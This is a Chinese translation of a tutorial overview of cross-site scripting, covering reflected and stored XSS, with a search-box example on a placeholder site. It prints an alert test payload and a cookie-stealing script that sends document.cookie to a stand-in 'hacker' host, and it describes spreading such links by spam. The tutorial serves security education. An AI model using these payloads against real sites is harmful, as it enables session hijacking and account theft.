


# XSS 的概述

# XSS 的概述

最重要的要了解 XSS 漏洞的是，他们是目前为止发现的，在所有网站超过 80％比例的定制 Web 应用程序中最常 见的漏洞。虽然跨站点脚本在一段时间内一直被认为是中等程度的的漏洞，但 XSS 蠕虫和病毒的出现，已经提高了 XSS 的评估。软件开发人员和安全专业人员需要知道它是多么简单，以防止代码开发过程中出现 XSS 漏洞，并且一经查出， 他们是多么容易解决。XSS 是一种攻击技术，它使得一个网站，写出攻击者提供的可执行代码，然后加载在用户的 Web 浏览器。也就是说，当黑客使用存在漏洞的网站作为攻击的通道时，用户是预定的受害者。

## 非持久型 XSS

(译者注：也叫反射型 XSS)

想想看，一个黑客想使用“([`victim/)/”网站对用户进行`](http://victim/)/”网站对用户进行) XSS 攻击。黑客会采取的第一个步骤是在 [`victim/`](http://victim/) 找出一个 XSS 漏洞，然后构造一个特制的 URL，也被称为链接。要做到这一点，黑客会搜寻网站上的客户端提供的数 据可以被发送到 Web 服务器，然后回显到屏幕上的任何功能，比如搜索框。

图一展现的是一种常见的在线发布的博客。XSS 漏洞往往出现在搜索框表单。在搜索字段中输入“test search”， 响应页面将用户输入的文本在显示在三个不同的位置，如图 2 所示。图下方是新的 URL。查询字符串中包含值为 “test+search”的“search”参数。这个 URL 值可以在运行时更改，甚至包括 HTML / JavaScript 的内容。



图 1 [`victim/`](http://victim/)

图 2 [`victim/search.pl?search=test+search`](http://victim/search.pl?search=test%2Bsearch)

图 3 展示了原来的搜索词被替换为下面的 HTML / JavaScript 代码时会发生什么：

Example 1.

```
”><SCRIPT>alert(‘XSS%20Testing’)</SCRIPT> 
```

结果页面弹出了一个无害的警告对话框。根据提示，提交的代码已经成为 web 页面的一部分，证明了 JavaScript 已进入到[`victim/`](http://victim/%E7%9A%84%E4%B8%8A%E4%B8%8B%E6%96%87%E5%B9%B6%E5%BE%97%E5%88%B0%E6%89%A7%E8%A1%8C)的上下文并得到执行。图 4 展示了夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代 码。



图 3，原来的搜索词将被替换为 HTML/ JavaScript 代码。

图 4，夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代码。

此时，黑客将会继续修改这个 URL，包含更复杂的 XSS 攻击来利用用户。一个典型的例子是一个简单的 cookie 盗 窃的攻击。

Example 2.

```
“><SCRIPT>var+img=new+Image();img.src=”http://hacker/”%20+%20document.cookie;</SCRIPT> 
```

前面的 JavaScript 代码创建一个图像 DOM（文档对象模型）对象。

```
var img=new Image(); 
```

因为 JavaScript 代码在“[`victim/`](http://victim/)”上下文中执行，所以它可以访问 cookie 数据。

```
document.cookie; 
```

图形对象然后指派一个外域的 URL 发送带有 Web 浏览器的 Cookie 字符串的数据到“[`hacker/`](http://hacker/)”。

```
img.src=”http://hacker/” + document.cookie; 
```

下面是一个例子，是一个被发送的 HTTP 请求。

Example 3.

```
GET http://hacker/path/_web_browser_cookie_data HTTP/1.1
Host: host
User-Agent: Firefox/1.5.0.1
Content-length: 0 
```

一旦黑客完成了他的攻击代码，他会通过垃圾邮件，留言板的帖子，即时消息和其他方法宣传这种特制的链接， 试图吸引用户点击。是什么让这种攻击这么有效？用户可能点击正常的网络钓鱼邮件 7 中的链接是因为这个 URL 包 含了真正的网站域名，而不是一种外观相似的域名或随机的 IP 地址。应当注意的是，过长的 XSS 链接可以使用 URL 缩短服务，如 TinyURL.com 进行伪装。

## 持久型 XSS

(译者注：也叫存储型 XSS)

持久型（或 HTML 注入型）XSS 攻击最常发生在由社区内容驱动的网站或 Web 邮件网站，不需要特制的链接来 执行。黑客仅仅需要提交 XSS 漏洞利用代码到一个网站上其他用户可能访问的地方。这些地区可能是博客评论，用户 评论，留言板，聊天室，HTML 电子邮件，wikis，和其他的许多地方。一旦用户访问受感染的网页，执行是自动的。 这使得持续性的 XSS 的危险性比非持久性高，因为用户没有办法保护自己。一旦黑客成功在某个页面注入了漏洞利

用代码，他将宣传受感染页面的 URL 来希望不知情的用户中招。即使用户对非持续性 XSS 的 URL 懂得识别，也会很 容易的受到影响(译者:中招)。

无论使用非持续性或持续性的 XSS 漏洞，黑客可以利用用户，导致网络和财务上的损失，有许多的方法。 从这点出发，我们将专注于的 XSS 病毒和蠕虫的攻击技术。欲了解更多 XSS 信息，请访问“跨站脚本常见问题解答 8”和“XSS 小抄 9” ，两个优秀的信息资源。